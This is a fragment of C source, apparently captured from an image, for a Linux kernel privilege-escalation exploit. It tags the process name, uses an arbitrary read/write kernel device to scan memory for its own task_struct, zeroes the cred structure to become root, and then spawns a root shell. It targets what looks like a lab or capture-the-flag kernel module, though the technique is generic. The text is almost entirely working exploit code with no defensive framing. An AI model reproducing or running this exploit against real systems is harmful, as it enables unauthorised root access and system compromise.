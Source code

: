 ```
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);
 
    int devFD;
    int addrFD;
    unsigned long memOffset;
    size_t addr=0xffff880000000000;
    size_t cred=0;
    size_t real_cred=0;
    size_t target_addr;
    size_t result=0;
    char root_cred[28] = {0};
 
    //set comm[TASK_COMM_LEN]
    char target[16];
    strcpy(target,"tryToFindPIG007");
    prctl(PR_SET_NAME,target);
 
    //open Dev
    char* pos = "/dev/arbWriteModule";
    devFD = openDev(pos);
 
    //search target chr
    char *buf = (char *)calloc(1,0x1000);
    puts("[+] we can read and write any memory");
    for(;addr<0xffffc80000000000;addr+=0x1000){
        arbitrary_read(devFD,0x1000,buf,addr);
        result=memmem(buf,0x1000,target,16);
        if (result){
            printf("result:%p\n",result);
            cred= * (size_t *)(result-0x8);
            real_cred= *(size_t *)(result-0x10);
            // if ((cred||0xff00000000000000) && (real_cred == cred))
            // {
            target_addr=addr+result-(int)(buf);
            printf("[+]found task_struct 0x%lx\n",target_addr);
            printf("[+]found cred 0x%lx\n",real_cred);
            break;
            // }
        }
    }
    if (result==0)
    {
        puts("not found , try again ");
        exit(-1);
    }
 
    arbitrary_write(devFD,28,root_cred,real_cred);
 
    if (getuid()==0){
        printf("[+]now you are r00t,enjoy ur shell\n");
        system("/bin/sh");
    }
    else
    {
        puts("[-] there must be something error ... ");
        exit(-1);
    }
 
 
 
   return 0;
}
```